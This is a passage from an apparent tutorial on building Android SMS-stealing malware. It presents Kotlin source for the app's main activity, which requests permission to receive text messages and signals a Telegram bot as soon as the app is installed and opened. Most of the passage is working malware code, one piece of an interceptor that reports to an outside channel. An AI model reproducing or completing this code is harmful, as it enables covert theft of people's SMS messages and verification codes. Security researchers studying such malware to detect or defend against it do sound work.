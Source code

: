 The last one is `HackMainActivity`. This activity requests the `RECEIVE_SMS` permission before starting the functionality of the app. It also sets up a button just show `Meow ♥️` and send to Telegram like indicator: `Meow ♥️` -> "Everything is ok, SMS Hack app installed".     

```kotlin
package cocomelonc.hacksms

import android.Manifest
import android.os.Bundle
import android.content.Context
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast
import com.karumi.dexter.Dexter
import com.karumi.dexter.PermissionToken
import com.karumi.dexter.listener.PermissionDeniedResponse
import com.karumi.dexter.listener.PermissionGrantedResponse
import com.karumi.dexter.listener.PermissionRequest
import com.karumi.dexter.listener.single.PermissionListener

class HackMainActivity : ComponentActivity() {
    private lateinit var meowButton: Button

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        // grant RECEIVE_SMS permission
        grantSmsReceivePermissions(this)

        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(applicationContext, "Meow! ♥️\uFE0F", Toast.LENGTH_SHORT).show()
            HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F") // send message via Telegram bot
        }

        HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F") // send message immediately on app start
    }

    // grant permissions logic
    private fun grantSmsReceivePermissions(context: Context) {
        Dexter.withContext(context)
            .withPermission(Manifest.permission.RECEIVE_SMS)
            .withListener(object : PermissionListener {
                override fun onPermissionGranted(p0: PermissionGrantedResponse?) {
                    Toast.makeText(context, "Hack SMS permission granted", Toast.LENGTH_SHORT).show()
                }

                override fun onPermissionDenied(p0: PermissionDeniedResponse?) {
                    Toast.makeText(context, "Hack SMS permission denied", Toast.LENGTH_SHORT).show()
                }

                override fun onPermissionRationaleShouldBeShown(
                    p0: PermissionRequest?,
                    p1: PermissionToken?
                ) {
                }
            }).check()
    }
}
```
